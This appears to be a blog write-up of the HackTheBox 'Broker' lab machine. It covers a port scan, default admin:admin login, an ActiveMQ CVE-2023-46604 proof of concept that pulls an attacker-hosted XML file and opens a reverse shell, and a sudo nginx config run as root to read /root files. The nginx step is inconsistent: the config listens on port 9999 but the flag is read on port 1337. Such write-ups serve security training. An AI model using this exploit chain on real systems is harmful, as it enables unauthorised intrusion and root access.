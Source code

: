 ```yaml
---
title: "Broker"
description: "A retiring linux easy machine, trying to do one a day!"
pubDate: 2024-01-05
author: "sealldev"
section: "HackTheBox"
image: "images/htb/box/broker/icon.png"
tags: ["easy", "hackthebox-machine"]
---
```


Another easy, (and my first retired) machine!

**Machine created by:** [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Let's start with a port scan with nmap:

```
$ sudo nmap 10.10.11.243 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 07:20 AEDT
Nmap scan report for 10.10.11.243
Host is up (0.014s latency).
Not shown: 2492 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1337/tcp  open  waste
1883/tcp  open  mqtt
5672/tcp  open  amqp
9001/tcp  open  tor-orport
9003/tcp  open  unknown
61613/tcp open  unknown
```

Let's setup an entry in `/etc/hosts`

```
10.10.11.243 broker.htb
```

Visiting [broker.htb](http://broker.htb:80) prompts authentication, which out of instinct I inputted `admin:admin` and it succeeded :p

![Main](images/htb/box/broker/main.png)

## Exploitation

Looking for CVEs on ActiveMQ I found [CVE-2023-46604 RCE PoC](https://github.com/evkl1d/CVE-2023-46604) and I setup a listener.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

After cloning the PoC I edited the XML to be my private IP and port, then hosted it locally using `python3 -m http.server`.

I then ran the PoC:

```
$ python3 exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.***.***:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.***.***:8000/poc.xml

[*] Sending packet: 000000711f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001e687474703a2f2f31302e31302e31362e393a383030302f706f632e786d6c
```

And I recieve a response!

```
[07:28:01] 10.10.11.243:49786: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.243:49786
           established
```

## User Flag

I then see I'm the user `activemq` and read the user flag.

```
(remote) activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
c8293361b3c30407ee77164ebe96aa6d
```

And there's the user flag! 

Flag: `c8293361b3c30407ee77164ebe96aa6d`

## Root Flag

Running `sudo -l` shows an entry:
```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Looking at the options for `nginx` we can supply a custom config:

```
$ sudo /usr/sbin/nginx
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```

We can make a new config in `/tmp/newconf.conf` (documentation from [Nginx Docs](https://www.nginx.com/resources/wiki/start/topics/examples/full/)):

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9999;
        root /;
    }
}
```

and then just read the root flag!

```
$ curl -L "http://localhost:1337/root/root.txt"
353a4607eef11ca5b7e6cff7464afd66
```

There's the root flag! 

Flag: `353a4607eef11ca5b7e6cff7464afd66`

![Success](images/htb/box/broker/submitted.png)